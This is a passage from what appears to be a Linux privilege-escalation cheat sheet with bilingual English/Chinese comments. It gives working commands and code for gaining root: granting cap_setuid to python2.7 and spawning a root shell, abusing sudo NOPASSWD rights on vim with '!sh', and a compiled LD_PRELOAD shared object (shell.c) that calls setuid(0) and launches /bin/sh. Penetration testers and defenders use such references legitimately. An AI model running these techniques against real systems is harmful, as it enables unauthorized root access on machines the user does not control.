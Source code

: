 ```shell
$ sudo /usr/bin/setcap cap_setuid+ep /usr/bin/python2.7

$ python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
sh-5.0# id
uid=0(root) gid=1000(swissky)
```

----

#### SUDO

##### NOPASSWD

```shell
# Sudo configuration might allow a user to execute some command with another user privileges without knowing the password.
# Sudo配置可能允许用户在不知道密码的情况下使用其他用户权限执行某些命令。

$ sudo -l
如结果
User demo may run the following commands on crashlab:
    (root) NOPASSWD: /usr/bin/vim

# In this example the user demo can run vim as root, it is now trivial to get a shell by adding an ssh key into the root directory or by calling sh.
# 例如 名为demo的用户 可以使用root身份运行vim，现在轻易可以获取shell:
# 方法1.通过在根目录中添加ssh密钥

# 方法2.通过调用sh

sudo vim -c '!sh'
sudo -u root vim -c '!sh'
```

##### LD_PRELOAD and NOPASSWD

```shell
# If LD_PRELOAD is explicitly defined in the sudoers file
# 如果在sudoers文件中显式定义了 LD_PRELOAD 如下
Defaults        env_keep += LD_PRELOAD

# 使用以下命令 编译c代码
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

```c
# shell.c

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
```
